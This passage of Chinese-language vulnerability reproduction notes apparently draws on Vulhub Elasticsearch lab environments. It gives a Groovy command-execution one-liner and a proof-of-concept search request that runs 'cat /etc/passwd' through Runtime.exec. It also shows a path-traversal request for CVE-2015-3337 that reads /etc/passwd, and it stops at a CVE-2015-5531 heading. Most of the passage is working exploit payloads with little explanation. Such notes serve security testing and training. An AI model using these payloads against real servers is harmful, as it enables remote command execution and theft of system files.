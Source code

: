 


**Goovy直接执行命令法**

```
def command='id';def res=command.execute().text;res
```

> 由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：


POC:
```
POST http://target:9200/_search?pretty 
{"size":1,"script_fields": {"test#": {"script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getInputStream())).readLines()","lang": "groovy"}}}
```

# **[ElasticSearch 目录穿越漏洞（CVE-2015-3337）测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2015-3337/)**

## 漏洞原理

```
在安装了具有“site”功能的插件以后，插件目录使用../即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。
```

**插件链接**：

默认安装了一个插件：elasticsearch-head，主页在此：**[elasticsearch-head](https://github.com/mobz/elasticsearch-head)**


## 漏洞复现：

```
GET /_plugin/head/../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.100.85:9200
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 2
```


# **[ElasticSearch 目录穿越漏洞（CVE-2015-5531）](https://vulhub.org/#/environments/elasticsearch/CVE-2015-5531/)**

## 漏洞原理：
